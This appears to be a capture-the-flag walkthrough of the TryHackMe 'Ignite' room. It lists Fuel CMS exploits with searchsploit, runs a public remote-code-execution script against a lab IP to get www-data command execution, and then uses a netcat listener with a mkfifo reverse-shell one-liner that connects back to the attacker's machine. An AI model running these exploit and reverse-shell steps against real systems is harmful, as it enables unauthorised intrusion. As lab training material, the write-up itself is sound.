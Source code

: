 ```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Ignite]
└─$ searchsploit Fuel CMS      
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                      | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                      | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                      | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                     | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                            | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery (CSRF)                              | php/webapps/50884.txt
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

We can copy the RCE3 to our directory and use it :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Ignite]
└─$ python3 50128.py -u http://10.10.182.218 
python3: can't open file '/home/mdn0x/THM/CHALLENGES/Easy/Ignite/50128.py': [Errno 2] No such file or directory
                                                                                                                  
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Ignite]
└─$ python3 50477.py -u http://10.10.182.218 
[+]Connecting...
Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Now we can obtain a [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md), first we open a listener with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```
nc -lvnp 1337
```

Then on the target we execute the following command :

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.8.162.183 1337 >/tmp/f
```
